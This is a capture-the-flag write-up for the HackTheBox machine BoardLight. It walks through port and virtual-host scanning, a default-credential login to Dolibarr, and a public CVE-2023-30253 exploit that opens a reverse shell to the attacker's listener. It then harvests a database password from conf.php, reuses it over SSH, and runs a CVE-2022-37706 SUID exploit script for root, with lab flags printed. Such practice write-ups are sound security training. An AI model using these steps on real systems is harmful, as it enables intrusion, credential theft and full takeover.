





# BoardLight - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User***: Discovered the virtual host `crm.board.htb` running `Dolibarr 17.0.0`, which is vulnerable to `CVE-2023-30253`. Exploit this CVE to obtain a reverse shell as `www-data`. Reuse the database password from `conf.php` for SSH login as `larissa`.

***Root***: Identified an SUID file at `lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`. Use `CVE-2022-37706` to achieve Local Privilege Escalation.




## BoardLight Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ nmap -sV -sC -oA nmap/BoardLight 10.10.11.11
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-11 23:20 IDT
Nmap scan report for 10.10.11.11
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 062d3b851059ff7366277f0eae03eaf4 (RSA)
|   256 5903dc52873a359934447433783135fb (ECDSA)
|_  256 ab1338e43ee024b46938a9638238ddf4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:



At the bottom of the page, we can see the domain `board.htb`. By scanning for virtual hosts, we discovered the following:

```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ gobuster vhost -u http://board.htb/ -w ../subdomains-top1milion.txt -o vho -t 80 --no-error 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://board.htb/
[+] Method:       GET
[+] Threads:      80
[+] Wordlist:     ./subdomains-top1milion.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2024/07/11 23:22:14 Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb (Status: 200) [Size: 6360]

```

By browsing to [http://crm.board.htb/](http://crm.board.htb/), we see the following page:


Using the credentials `admin:admin`, we access the following dashboard:



We can use the exploit available at [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) to achieve RCE:

```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ python3 exp.py  http://crm.board.htb admin admin 10.10.14.14 4242
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection

```

This grants us a reverse shell:

```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from board.htb [10.10.11.11] 35672
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$

```

While inspecting the web server, we found the following configuration file:
```console
www-data@boardlight:~/html$ cat ./crm.board.htb/htdocs/conf/conf.php
cat ./crm.board.htb/htdocs/conf/conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

We also found the user `larissa` among the web server users. By reusing the password `serverfun2$2023!!`, we successfully logged in via SSH:
```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ ssh larissa@board.htb 
The authenticity of host 'board.htb (10.10.11.11)' can't be established.
ECDSA key fingerprint is SHA256:cfQmOVNyP7asi/B8DSu3+G5gDhuN37I3cqCQM89psFk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'board.htb,10.10.11.11' (ECDSA) to the list of known hosts.
larissa@board.htb's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$ cat user.txt 
9e19f2f9310f50d0ff8a715e187abe25

```

And we get the user flag `9e19f2f9310f50d0ff8a715e187abe25`.

### Root

By running `linpeas`, we found the following SUID files:
```console
larissa@boardlight:/tmp$ ./linpeas.sh
...

====================================( Interesting Files )=====================================
[+] SUID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd		--->	Apple_Mac_OSX_10.4.8
/usr/bin/newgrp		--->	HP-UX_10.20
/usr/bin/mount		--->	Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8

```

We discovered the `enlightenment` binaries. We can use the exploit detailed at [CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) to achieve Local Privilege Escalation by running the script available [here](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh):
```console
larissa@boardlight:/tmp$ bash ex.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# cat /root/root.txt
ef35678000592a8b2a4ad6c95385dd2e
```

And we get the root flag `ef35678000592a8b2a4ad6c95385dd2e`.

```